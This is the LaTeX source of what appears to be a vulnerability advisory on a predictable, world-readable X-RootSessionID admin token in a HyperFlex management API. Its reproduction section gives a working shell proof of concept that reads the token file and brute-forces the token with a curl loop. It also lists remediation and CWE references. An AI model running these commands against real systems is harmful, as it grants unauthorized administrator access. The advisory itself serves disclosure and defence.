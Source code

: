 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsection*{Reproduction}

\begin{lstlisting}[style=shell]
# From any local account -- read the token directly:
cat /etc/hyperflex/secure/root_file.pub

# From a remote position with the VM UUID -- brute-force in < 1 second:
UUID=$(cat /opt/hyperflex/etc/product_uuid)   # or via dmidecode
for N in $(seq 0 32767); do
    TOKEN="${UUID}-${N}"
    STATUS=$(curl -sk -o /dev/null -w "%{http_code}" \
        -H "X-RootSessionID: ${TOKEN}" \
        http://localhost:8000/rest/v1/cluster)
    [ "$STATUS" = "200" ] && echo "Valid token: $TOKEN" && break
done
\end{lstlisting}

\subsection*{Impact}

Attacker obtains a valid \texttt{X-RootSessionID} token that grants
administrator-equivalent access to the internal HyperFlex management API,
bypassing JWT authentication. From any local account, the token is directly
readable from the filesystem.

\subsection*{Remediation}

\begin{enumerate}[noitemsep]
\item Replace \texttt{\$RANDOM} with a CSRNG:
  \texttt{sharedkey=\$(openssl rand -hex 32)}.
\item Change the file permissions to \texttt{600} (owner-only):
  \texttt{chmod 600 root\_file.pub}.
\item Consider replacing the file-based \texttt{X-RootSessionID} scheme with
  a time-limited token issued by the AAA service.
\end{enumerate}

\subsection*{References}

\begin{itemize}[noitemsep]
\item CWE-330: Use of Insufficiently Random Values ---
  \url{https://cwe.mitre.org/data/definitions/330.html}
\item CWE-732: Incorrect Permission Assignment for Critical Resource ---
  \url{https://cwe.mitre.org/data/definitions/732.html}
\item NIST SP 800-90A Rev 1: Recommendation for Random Number Generation
\end{itemize}
\end{document}
